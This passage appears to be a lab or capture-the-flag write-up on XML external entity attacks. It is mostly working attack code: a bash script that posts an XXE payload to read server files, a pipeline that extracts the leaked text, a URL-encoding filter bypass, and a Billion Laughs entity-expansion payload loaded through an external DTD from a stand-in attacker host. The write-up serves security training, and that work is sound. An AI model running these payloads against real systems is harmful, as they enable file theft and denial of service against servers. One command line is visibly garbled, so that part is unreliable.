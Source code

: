 ```bash

XML_LOG="<?xml version='1.0'?>
<!DOCTYPE xxe [
   <!ENTITY xxe SYSTEM '$1' >
]>
<login>
   <username>XXEME &xxe;</username>
   <password>password</password>
</login>"

echo -e "==========================================="
echo -e "\t\tSTART"
echo -e "\nResults: ";

curl -s 'http://2.xee.labs/login.php' --data "$XML_LOG" --header "NoDOS:I-Agree"

echo -e "\n\n\t\tEND";
echo -e "===========================================";
```
We cleanse the files with:
```bash
./exploit_xxe.sh /var/www/XEE/2/LOGS/omg_a_dos.log \
| gawk 'match($0, /<b>XXEME (.*)<\\\/b>\s/, m) { print m[1] }' \
| sed 's/\\\//\//g'./exploit.sh
```
### Level 3
Same as above, but url needs to be encoded as follows:
```bash
%5BLOGS%5D/omg_%C3%A0_dos.log
```
### Level 4
Filters are in place and thus the easiest way is to move the Billion Laughs attack into an external DTD as follows:
```xml
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```
We then can serve the payload as follows:
```xml
<?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY % EvilDTD PUBLIC "xxe"
            "http://hacker.site/evil_remote_xee.dtd">
        %EvilDTD;
    ]>
    <login>
        <username>XEEME &file;</username>
        <password>password</password>
    </login>
```
Note that the log file path in this case is very long and thus we can move it into an external DTD as not to break url length restrictions.
# Deserialization